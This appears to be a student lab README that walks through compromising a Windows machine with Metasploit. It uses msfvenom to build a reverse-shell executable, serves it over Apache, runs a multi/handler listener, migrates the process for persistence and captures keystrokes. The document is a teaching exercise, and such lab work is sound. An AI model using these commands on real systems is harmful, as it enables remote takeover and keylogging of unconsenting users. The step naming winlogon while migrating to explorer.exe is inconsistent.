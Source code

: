 # 7.Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/d1355a54-549c-4251-9cb2-ffd8029475d6)




Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/0fab784a-f98b-4529-b16f-edb051a54cd8)





copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/9f385df1-7ef6-4664-bd71-b40a05cdc9a9)





Start apache server
sudo systemctl apache2 start
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/b75c3b4a-80c0-4488-b2bc-cf32e724221c)





Check the status of apache2
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/35071646-4aff-4177-b96c-2969a7c115e4)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/2c7fc124-656e-45f5-9aec-d375164e90ea)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/be4bb428-a0ff-4176-a41b-450c8582c58e)



Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/bbb60dfc-9938-4a23-bdfb-c4790d087667)



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/7cbb57bb-ad6e-481a-9a41-ee706e5be473)




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/06a48691-f75d-40e2-8ff0-9c247cab5780)




keyscan_dump	Shows the keystrokes captured so far

![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/3ad1d31f-f013-4b1f-923a-6625c4e2a0ba)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
